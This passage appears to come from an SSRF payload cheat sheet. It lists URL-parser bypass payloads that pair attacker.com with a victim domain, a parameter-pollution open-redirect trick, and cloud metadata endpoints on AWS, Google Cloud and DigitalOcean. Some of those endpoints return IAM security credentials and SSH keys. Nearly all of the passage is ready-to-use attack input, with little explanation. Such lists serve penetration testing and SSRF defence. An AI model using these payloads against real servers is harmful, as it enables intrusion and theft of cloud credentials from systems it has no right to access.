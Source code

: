 ```bash
<https://attacker.com>\\@@{domain}
<https://attacker.com>:\\@@{domain}
<https://attacker.com#\\@{domain}>
<https://attacker.com>\\anything@{domain}/
<https://www.victim.com>(\\u2044)some(\\u2044)path(\\u2044)(\\u0294)some=param(\\uff03)hash@attacker.com

# On each IP position try to put 1 attackers domain and the others the victim domain
<http://1.1.1.1> &@2.2.2.2# @3.3.3.3/

#Parameter pollution
next={domain}&next=attacker.com

# Bypass via open redirect
<https://portswigger.net/web-security/ssrf/lab-ssrf-filter-bypass-via-open-redirection>
```

#### Cloud Meta Data files

```bash
## AWS
# from <http://docs.aws.amazon.com/AWSEC2/latest/UserGuide/ec2-instance-metadata.html#instancedata-data-categories>

<http://169.254.169.254/latest/user-data>
<http://169.254.169.254/latest/user-data/iam/security-credentials/>[ROLE NAME]
<http://169.254.169.254/latest/meta-data/iam/security-credentials/>[ROLE NAME]
<http://169.254.169.254/latest/meta-data/ami-id>
<http://169.254.169.254/latest/meta-data/reservation-id>
<http://169.254.169.254/latest/meta-data/hostname>
<http://169.254.169.254/latest/meta-data/public-keys/0/openssh-key>
<http://169.254.169.254/latest/meta-data/public-keys/[ID]/openssh-key>

# AWS - Dirs 

<http://169.254.169.254/>
<http://169.254.169.254/latest/meta-data/>
<http://169.254.169.254/latest/meta-data/public-keys/>

## Google Cloud
#  <https://cloud.google.com/compute/docs/metadata>
#  - Requires the header "Metadata-Flavor: Google" or "X-Google-Metadata-Request: True"

<http://169.254.169.254/computeMetadata/v1/>
<http://metadata.google.internal/computeMetadata/v1/>
<http://metadata/computeMetadata/v1/>
<http://metadata.google.internal/computeMetadata/v1/instance/hostname>
<http://metadata.google.internal/computeMetadata/v1/instance/id>
<http://metadata.google.internal/computeMetadata/v1/project/project-id>

# Google allows recursive pulls 
<http://metadata.google.internal/computeMetadata/v1/instance/disks/?recursive=true>

## Google
#  Beta does NOT require a header atm (thanks Mathias Karlsson @avlidienbrunn)

<http://metadata.google.internal/computeMetadata/v1beta1/>

## Digital Ocean
# <https://developers.digitalocean.com/documentation/metadata/>

<http://169.254.169.254/metadata/v1.json>
<http://169.254.169.254/metadata/v1/> 
<http://169.254.169.254/metadata/v1/id>
```